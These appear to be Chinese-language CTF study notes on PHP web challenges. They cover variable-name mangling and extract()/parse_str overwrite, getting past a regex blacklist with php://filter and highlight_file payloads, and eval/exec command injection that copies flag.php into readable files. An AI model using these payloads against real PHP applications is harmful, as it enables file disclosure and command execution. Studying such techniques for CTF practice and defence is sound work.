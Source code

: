 ## php变量过滤
1. 被get或者post传入的变量名，如果含有空格、+、[则会被转化为\_。如果传入[，它被转化为_之后，后面的字符就会被保留
   绕过：变量名如果有下划线可以`替换为[,%20,空格`
* ==extract()==
  使用数组键名作为变量名，使用数组键值作为变量值
  `extract($_POST)`可以将post的参数转化为变量

> ?\_POST[key1]=36d&\_POST[key2]=36d

  如果有`@parse_str($_SERVER['QUERY_STRING']); `就能转化为：
  $\_POST[key1]=36d
  $\_POST[key2]=36d
  再通过extract($_POST)转化为
  $key1=36d     $key2=36d


* ==绕过了很多打印符==

```php
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16)
```
  > GET:?1=php://filter/convert.base64-encode/resource=flag.php
  > POST:fun=include$_GET[1]
  >
  > GET:?1=flag.php 
  > POST:&fun=highlight_file($\_GET[1])   
  >
  > fun=var_export(get_defined_vars())
  >
  > fun=highlight_file($_POST[1])&1=flag.php
  > 

## eval()命令执行

![image-20241107083421148](https://starofeden-blog.oss-cn-chengdu.aliyuncs.com/img/202411070834300.png)

* 分析

eval只执行前6个字符。传入==$F=\`$F\`;+sleep 3==就能执行整个内容

### 解题姿势

* 使用dnslog
  dnslog前缀太多就不会有显示，ctfshow上一直不成功,所以需要筛选一下

* 没有限制写文件
> \`$F\` ;nl flag.php>1.txt
> \`$F\` ;cp flag.php>1.txt 或 cp+flag.php+1.txt
> \`$F\` ;mv flag.php>1.txt

## exec()

**不会输出结果到标准输出**，而是将最后一行结果作为返回值返回；

* 将重定向到某个文件（>    tee)  `tee命令会覆盖指定文件`

> ls / | tee 1
>
> ls /flag | tee 2

## 小知识

1. windows系统中，url目录有多条斜杠不影响
1. 关注运算符==优先级==！（&&优先级高于||，“=”赋值的优先级高于and）